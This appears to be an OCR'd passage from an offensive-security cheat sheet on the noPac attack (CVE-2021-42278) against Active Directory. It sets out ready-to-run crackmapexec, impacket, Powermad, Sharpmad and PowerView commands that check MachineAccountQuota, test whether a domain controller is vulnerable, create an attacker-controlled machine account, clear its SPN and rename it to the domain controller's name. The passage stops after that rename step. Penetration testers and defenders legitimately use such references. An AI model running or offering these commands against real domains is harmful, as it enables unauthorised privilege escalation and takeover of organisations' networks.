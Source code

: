 **Requirements**

- MachineAccountQuota > 0

**Check for exploitation**

0.  Check the MachineAccountQuota of the account

```powershell
crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
StandIn.exe --object ms-DS-MachineAccountQuota=*
```

1.  Check if the DC is vulnerable

```powershell
crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
```

**Exploitation**

0.  Create a computer account
    
    ```powershell
    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
    
    powermad@windows> . .\Powermad.ps1
    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose
    
    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
    ```
    
1.  Clear the controlled machine account `servicePrincipalName` attribute
    
    ```ps1
    impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController
    
    powershell@windows> . .\Powerview.ps1
    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
    ```
    
2.  (CVE-2021-42278) Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$`
    
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1224
    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'
    
    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
    ```
    